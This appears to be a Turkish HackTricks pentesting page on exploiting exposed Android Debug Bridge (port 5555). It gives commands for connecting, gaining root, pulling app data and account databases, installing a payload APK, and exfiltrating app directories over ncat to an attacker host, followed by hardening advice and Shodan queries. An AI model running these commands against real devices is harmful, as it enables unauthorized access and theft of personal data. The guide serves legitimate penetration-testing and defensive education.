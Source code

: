 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Temel Bilgiler

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb), Android tabanlı cihazlar ve emülatörlerle iletişim kurmak için bir komut satırı aracıdır. Tipik eylemler arasında paket yükleme, hata ayıklama ve cihazda etkileşimli bir Unix kabuğu alma bulunmaktadır.

- Tarihsel varsayılan TCP portu: 5555 (klasik "adb tcpip" modu).
- Modern Kablosuz hata ayıklama (Android 11+) TLS eşleştirme ve mDNS hizmet keşfi kullanır. Bağlantı portu dinamik olup mDNS aracılığıyla keşfedilir; 5555 olmayabilir. Eşleştirme, adb pair host:port ile yapılır ve ardından adb connect gelir. Aşağıdaki notlara saldırgan etkileri için bakın.

Örnek nmap parmak izi:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Bağlan

Eğer ADB'yi açık ve erişilebilir bulursanız, hızlıca bağlanmayı ve saymayı deneyin:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Eğer cihaz ADB kimlik doğrulamasını zorluyorsa (ro.adb.secure=1), önceden yetkilendirilmiş olmanız (USB RSA kimlik doğrulaması) veya Android 11+ Kablosuz hata ayıklama eşleştirmesini kullanmanız gerekecek (bu, cihazda görüntülenen bir kerelik kodu gerektirir).
- Bazı üretici görüntüleri, mühendislik/kullanıcı hata ayıklama derlemeleri, emülatörler, TV'ler, STB'ler ve geliştirme kitleri, kimlik doğrulaması olmadan veya adbd'nin root olarak çalıştığı durumlarda adbd'yi açığa çıkarır. Bu durumlarda genellikle doğrudan bir shell veya root shell'e geçersiniz.

Genel bir ADB komut referansı için, bakınız:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Hızlı Post-Exploitation

Shell'e sahip olduğunuzda, ayrıcalıkları ve SELinux bağlamını doğrulayın:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Verileri Listele ve Yakala

- Üçüncü taraf uygulamaları ve yolları listele:
```bash
pm list packages -3
pm path <pkg>
```
- Eğer root erişiminiz varsa (adb root veya su çalışır), /data'ya doğrudan erişebilirsiniz. Aksi takdirde, hata ayıklanabilir uygulamalar için run-as kullanmayı tercih edin:
```bash
# Root olmadan, hata ayıklanabilir bir uygulama için
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Root ile
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Kullanışlı sistem belgeleri (root gereklidir):
- /data/system/users/0/accounts.db ve ilgili AccountManager verileri
- /data/misc/wifi/ (eski sürümlerde ağ yapılandırmaları/anahtarları)
- /data/data/<pkg> altında uygulamaya özel SQLite DB'leri ve shared_prefs

Bunu hassas bilgileri (örneğin, uygulama sırları) almak için kullanabilirsiniz. Chrome veri dikkate alımları hakkında notlar için [burada](https://github.com/carlospolop/hacktricks/issues/274) belirtilen konuyu inceleyin.

### Kod yürütme ve yük teslimi

- Kurulum yapın ve çalışma zamanı izinlerini otomatik olarak verin:
```bash
adb install -r -g payload.apk         # -g, manifestte belirtilen tüm çalışma zamanı izinlerini verir
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Etkinlikleri/hizmetleri/broadcast'ları doğrudan başlatın:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Port yönlendirme ve pivotlama

Root olmadan bile, adb yerel portları cihaz portlarına ve tersine yönlendirebilir. Bu, cihazda yerel olarak bağlı hizmetlere erişmek veya saldırgan hizmetlerini cihaza açmak için yararlıdır.

- Host->cihaz yönlendirme (cihazda yerel bir hizmete ev sahibi bilgisayarınızdan erişin):
```bash
adb forward tcp:2222 tcp:22       # Cihaz SSH çalıştırıyorsa (örneğin, Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Uygulamanın yerel hata ayıklama sunucusunu aç
```
- Ters cihaz->host yönlendirme (cihazın ev sahibi bilgisayarınızdaki bir hizmete ulaşmasına izin verin):
```bash
adb reverse tcp:1080 tcp:1080     # Cihaz uygulamaları artık host:1080'e 127.0.0.1:1080 olarak ulaşabilir
```
- Soketler üzerinden dosya dışa aktarımı (sdcard yazma yok):
```bash
# Host'ta: dinle
ncat -lvp 9000 > dump.tar
# Cihazda: dizini tar olarak gönder (root veya run-as uygun olduğunda)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Kablosuz Hata Ayıklama (Android 11+)

Modern Android, cihaz tarafı eşleştirme ve mDNS keşfi ile TLS korumalı kablosuz hata ayıklama uygular:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notlar
- Portlar dinamik; 5555 varsaymayın. mDNS hizmet adları şöyle görünür:
- _adb-tls-pairing._tcp (eşleştirme)
- _adb-tls-connect._tcp (eşleştirilmiş bağlantı)
- _adb._tcp (eski/normal)
- Eğer mDNS filtrelenmişse, klasik USB destekli etkinleştirme bazı sürümlerde hala çalışabilir: `adb tcpip 5555` ardından `adb connect <ip>:5555` (yeniden başlatmaya kadar).

Saldırgan etkileri: Cihazın UI'si ile etkileşimde bulunabiliyorsanız (örneğin, fiziksel erişim veya mobil MDM yanlış yapılandırması) Kablosuz hata ayıklamayı etkinleştirip eşleştirme kodunu görebilirseniz, kablo olmadan uzun süreli eşleştirilmiş bir ADB kanalı kurabilirsiniz. Bazı OEM'ler, eşleştirme olmadan mühendislik/geliştirme görüntülerinde ADB'yi TCP üzerinden açar—her zaman kontrol edin.

## Güçlendirme / Tespit

Savunucular, erişilebilir herhangi bir adbd (TCP) için kritik risk olduğunu varsaymalıdır.

- Gerekmediğinde ADB ve Kablosuz hata ayıklamayı devre dışı bırakın. Geliştirici seçeneklerinde USB hata ayıklama yetkilendirmelerini iptal edin.
- Ağ politikasının güvenilmeyen segmentlerde gelen TCP/5555 ve mDNS tabanlı ADB keşfini engellediğinden emin olun.
- Kontrolünüz altındaki cihazlarda:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP dinlemeyi devre dışı bırak (veya kullan: adb usb)
stop adbd; start adbd             # daemon'ı yeniden başlat
```
- Kurumsal ağlarda `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` için mDNS kayıtlarını izleyin ve beklenmeyen 5555 dinleyicileri için uyarılar oluşturun.
- Güvensiz sürümler için envanter: `getprop ro.debuggable`, `ro.build.type`, ve `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Referanslar

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, eşleştirme ve mDNS hizmet adları: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
